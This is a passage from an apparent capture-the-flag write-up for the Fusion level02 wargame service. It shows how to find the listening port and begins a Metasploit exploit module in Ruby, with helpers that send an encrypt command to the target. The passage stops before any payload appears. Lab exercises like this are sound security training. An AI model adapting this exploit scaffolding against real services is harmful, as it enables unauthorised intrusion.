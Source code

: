 ## <a name="building-the-client"></a> Building The Client
---

The server is listening for commands on port 20002:

{% highlight bash %}
root@fusion:~# lsof -i
COMMAND     PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
...snip...
level02    1479    20002    3u  IPv4  12273      0t0  TCP *:20002 (LISTEN)
...snip...
{% endhighlight %}

Create an [empty Metasploit module]({{site.baseurl}}/files/EmptyTcpMetasploitModule.rb) and update the `register_options` array with the IP of your local fusion VM. I used the following path:

- `/opt/metasploit-framework/modules/exploits/fusion/level02.rb`

The Ruby `recv` method accepts a maximum length of bytes, but the client needs to read in all data before trying to send a message. below is a buffered recv that will keep reading data until the full message is consumed. I created a second convenience function to send the encrypt command.

{% highlight Ruby %}
def buffered_recv(size)
  data = ""
  new_data = ""
  size_to_receive = size
  while(data.length < size) do
    new_data = sock.recv(size_to_receive)
    size_to_receive -= new_data.length
    data += new_data
  end
  data
end

def encrypt(len, data)
  buffer = "E" + [len].pack('L') + data
  sock.put(buffer)
  msg = buffered_recv(124)
  enc_data = buffered_recv(len)
  return enc_data
end
{% endhighlight %}

Fill the `exploit` method to send an encrypt command then quit.

{% highlight Ruby %}
def exploit
  # Open the TCP connection
  connect

  # Receive initial messages
  buffered_recv(57)

  # Send some data to be encrypted
  data = "A" * 256
  encrypted_data = encrypt(data.length, data)
  print_status("Encrypted data: #{encrypted_data.inspect}")

  # Send the quit command
  sock.put('Q')